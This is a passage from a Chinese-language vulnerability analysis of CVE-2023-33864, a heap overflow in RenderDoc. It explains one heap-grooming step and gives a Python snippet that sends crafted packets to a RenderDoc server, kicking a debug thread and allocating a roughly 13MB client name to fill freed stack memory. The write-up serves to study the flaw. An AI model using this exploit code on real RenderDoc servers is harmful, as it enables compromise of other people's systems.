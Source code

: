 1. 重新连接 server ，再起一个 client 调试线程，这个线程要做 3 件事情：
    - 踢掉前面的 tmptmp 线程
    - 分配长度为 0xdee870 的 client name 字符串（大约 13MB）
    - 起了新的调试线程代替之前的 tmptmp线程

```python
def long_live_thread(ip, port):
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((ip, port))
    packet = p32(0x2) + p32(0) + p32(9) + \
        p32(0xdee870) + b'\x03' *  0xdee870
        
    s.sendall(packet)
    # kick 字段设置为1，表示踢掉前面的 tmptmp 线程
    packet = b'\x04' * 0x80 + p32(1)
    s.sendall(packet)
    while True:
        pass

th_long_live = threading.Thread(target=long_live_thread, args=(ip, port))
th_long_live.start()
```

踢掉 tmptmp 线程是为了回收内存空洞，设置 kick 字段为1，server 就会对 tmptmp 线程调用pthread_join 回收线程资源，0x81000 的栈就会被 pthread 回收，这个回收并不是释放给系统，而是加入到了 pthread 维护的一个链表，下次 pthread_create 线程的时候从链表中取出给新的线程使用。

分配长度为 0xdee870 的 client name。

client name 会被复制一次，因此总共会分配两个连续的堆块用于存放 client name，总长度大约 26MB，正好覆盖到部分的内存空洞。

![截屏2025-05-27 21.31.00.png](/assets/posts/2025-05-27-CVE-2023-33864-RenderDoc堆溢出漏洞分析/%E6%88%AA%E5%B1%8F2025-05-27_21.31.00.png)

![renderdoc-第 8 页.jpg](/assets/posts/2025-05-27-CVE-2023-33864-RenderDoc堆溢出漏洞分析/renderdoc-%E7%AC%AC_8_%E9%A1%B5.jpg)
